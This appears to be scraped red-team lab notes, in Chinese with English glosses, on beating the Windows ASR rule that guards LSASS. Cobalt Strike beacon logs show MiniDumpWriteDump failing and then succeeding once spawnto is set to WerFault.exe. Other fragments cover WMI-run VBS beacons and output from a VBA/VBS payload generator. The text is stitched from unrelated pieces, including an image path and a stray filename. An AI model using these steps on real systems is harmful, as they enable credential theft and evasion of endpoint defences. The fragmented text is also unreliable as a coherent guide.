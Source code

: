 
The VBS is executed by scrcons.exe (WMI Standard Event Consumer), so if your injector performs "self-injection" (e.g. var target = Process.GetCurrentProcess();), the Beacon will be running inside this process.

1683877422578.jpg


# Block Credential Stealing from LSASS

> "This rule helps prevent credential stealing, by locking down Local Security Authority Subsystem Service (LSASS)."(“这项规定通过锁定本地安全认证子系统服务(lsASS) ，有助于防止credential被盗。”)

本质上，这个规则阻止您使用  PROCESS_VM_READ 特权打开 LSASS 句柄。例如，我们可以尝试使用 MiniDumpWriteDumpAPI 读取 LSASS。

```
beacon> getuid
[*] You are RTO2\amoss (admin)

beacon> spawnto x64 C:\Windows\System32\notepad.exe
[*] Tasked beacon to spawn x64 features to: C:\Windows\System32\notepad.exe

beacon> execute-assembly C:\Tools\MiniDumpWriteDump\bin\Debug\MiniDumpWriteDump.exe
[X] MiniDumpWriteDump Failed
```


与其他ASR规则一样，并不是所有的进程似乎都被阻止了。 WerFault（Windows错误报告）是一个负责Windows上错误报告的应用程序。 当一个应用程序崩溃时，werfault.exe作为一个子程序被生成，并为报告目的收集调试信息。(As with other ASR rules, not all processes appear to be blocked.  WerFault (Windows Error Reporting) is an application responsible for error reporting on Windows.  When an application crashes, werfault.exe is spawned as a child and collects debug information for reporting purposes.)

通过将spawnto设置为werfault，我们可以获得LSASS的句柄，包括读取其内存的权限。(By setting our spawnto to werfault, we can obtain a handle to LSASS which includes the permission to read its memory.)

```
beacon> spawnto x64 C:\Windows\System32\WerFault.exe
[*] Tasked beacon to spawn x64 features to: C:\Windows\System32\WerFault.exe
[+] host called home, sent: 40 bytes

beacon> execute-assembly C:\Tools\MiniDumpWriteDump\bin\Debug\MiniDumpWriteDump.exe
[!] MiniDumpWriteDump Succeeded
```

[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs